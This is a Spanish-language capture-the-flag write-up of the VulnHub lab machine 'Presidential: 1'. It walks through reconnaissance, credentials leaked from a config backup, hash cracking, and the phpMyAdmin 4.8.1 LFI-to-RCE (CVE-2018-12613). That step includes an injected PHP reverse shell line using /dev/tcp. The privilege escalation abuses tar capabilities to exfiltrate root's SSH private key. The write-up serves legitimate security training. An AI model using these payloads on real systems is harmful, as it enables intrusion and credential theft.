 ```yaml
---
title: "Presidential: 1 Write-Up - VulnHub"
description: "Presidential: 1 Write-Up - VulnHub"
pubDatetime: 2023-08-30
tags: ["media", "vulnhub", "LFI", "capabilities"]
---
```


# Reconocimiento

Primeramente, con nmap, realizamos un escaneo de puertos abiertos por TCP junto con sus servicios y versiones.

```bash
❯ nmap -sSCV -p- --open --min-rate 4000 -Pn -n 192.168.18.137

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 17:48 CEST
Nmap scan report for 192.168.18.137
Host is up (0.00011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.5.38)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Ontario Election Services &raquo; Vote Now!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.5.38
2082/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 06:40:f4:e5:8c:ad:1a:e6:86:de:a5:75:d0:a2:ac:80 (RSA)
|   256 e9:e6:3a:83:8e:94:f2:98:dd:3e:70:fb:b9:a3:e3:99 (ECDSA)
|_  256 66:a8:a1:9f:db:d5:ec:4c:0a:9c:4d:53:15:6c:43:6c (ED25519)
MAC Address: 08:00:27:5F:A2:9C (Oracle VirtualBox virtual NIC
```

Puertos abiertos 80 y 2082.

Por el 2082 corre SSH pero no tenemos credenciales válidas.

## Servicio web

En el puerto 80 se aplica virtual hosting al dominio **votenow.local**. Con gobuster buscamos rutas y directorios con distintas extensiones.

![](@assets/VulnHub/Presidential/vhost.png)

> Para poder acceder a este dominio hay que añadir la siguiente línea al /etc/hosts `192.168.18.137 votenow.local`.

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://votenow.local -t 200 -x html,php,txt,php.bak,bak

/assets               (Status: 301) [Size: 237] [--> http://192.168.18.137/assets/]
/index.html           (Status: 200) [Size: 11713]
/.html                (Status: 403) [Size: 207]
/config.php.bak       (Status: 200) [Size: 107]
/config.php           (Status: 200) [Size: 0]
/about.html           (Status: 200) [Size: 20194]
/.html                (Status: 403) [Size: 207]
```

Existe un archivo de backup en **http://votenow.local/config.php.bak** que contiene credenciales para una base de datos.

![](@assets/VulnHub/Presidential/backup.png)

`votebox:casoj3FFASPsbyoRP`

Por aquí no hay nada más interesante así que pasamos a buscar subdominios

```bash
❯ gobuster vhost -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://votenow.local/ --append-domain -t 200 | grep -v 400
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://votenow.local/
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: datasafe.votenow.local Status: 200 [Size: 9503]
```

Escaneando subdominios con gobuster encontramos **datasafe.votenow.local** donde se encuentra un panel de login _phpMyAdmin_.

# Intrusión

Las credenciales del `config.php.bak` son válidas.

## Contraseña hasheada

En la base de datos se puede listar un usuario y su contraseña hasheada: `admin:$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i`.

![](@assets/VulnHub/Presidential/hash.png)

Al crackearla (tarda su tiempo) con `john --wordlist /usr/share/seclists/rockyou.txt hash` obtenemos que la contraseña hasheada es **Stella**. Intento conectarme por SSH pero el servidor no deja así que seguimos buscando.

## Versión phpMyAdmin vulnerable

Vemos que la versión del _phpMyAdmin_ es la **4.8.1**, vulnerable a un LFI (CVE-2018-12613). Con `searchsploit -m php/webapps/50457.py` se nos proporciona un script en python en el que se escala a un RCE.
<
Básicamente lo que este script hace es realizar una query SQL tal que así: `select '<?php system("whoami")?>'` en la ruta `/import.php` (realmente se puede hacer desde cualquier ruta).

![](@assets/VulnHub/Presidential/php1.png)

Para luego acceder a la ruta `/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_<phpMyAdmin_cookie>` (donde se acontece el LFI) y el comando se ejecutará automáticamente porque la página interpreta el PHP que previamente hemos inyectado.

![](@assets/VulnHub/Presidential/php2.png)

Mandando la siguiente query: `select '<?php system("bash -i >& /dev/tcp/<IP>/<PUERTO>")?>'` tendremos una webshell al ponernos en escucha y realizar la misma petición de antes: `/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_<phpMyAdmin_cookie>`

Tenemos shell como el usuario apache.

![](@assets/VulnHub/Presidential/apache.png)

Hacemos `su admin` introduciendo **Stella** como contraseña y estamos como el usuario **admin**.

![](@assets/VulnHub/Presidential/user.png)

# Escalada de privilegios

Después de enumerar un rato llego a algo interesante.

Con `getcap -r / 2>/dev/null` buscamos archivos con [Capabilities](https://www.makeuseof.com/understanding-linux-capabilities/) y encontramos que el binario `/usr/bin/tarS` tiene **CAP_DAC_READ_SEARCH** activado. Esta capability básicamente nos deja leer y ejecutar cualquier archivo del sistema.

![](@assets/VulnHub/Presidential/getcap.png)

Vemos que este binario a pesar de ser customizado parece una copia exacta de el comando `tar` por lo que podríamos comprimir cualquier ruta del sistema para luego descomprimirla y ver sus contenidos.

Lo primero que se me ocurre es zipear la clave SSH privada de root para logearnos mediante SSH sin proporcionar contraseña.

Abrimos un servidor HTTP con python y nos traemos el comprimido a nuestra máquina local.

![](@assets/VulnHub/Presidential/tars.png)

```bash
wget 192.168.18.137:8000/id_rsa.tar.gz
```

Ahora descomprimimos el archivo.

```bash
tar -xzvf id_rsa.tar.gz
```

Le asignamos los permisos adecuados. Y nos conectamos por el puerto 2082

```bash
chmod 600 id_rsa

ssh -i id_rsa 192.168.18.138 -p 2082
```

Tenemos root como shell.

![](@assets/VulnHub/Presidential/root.png)
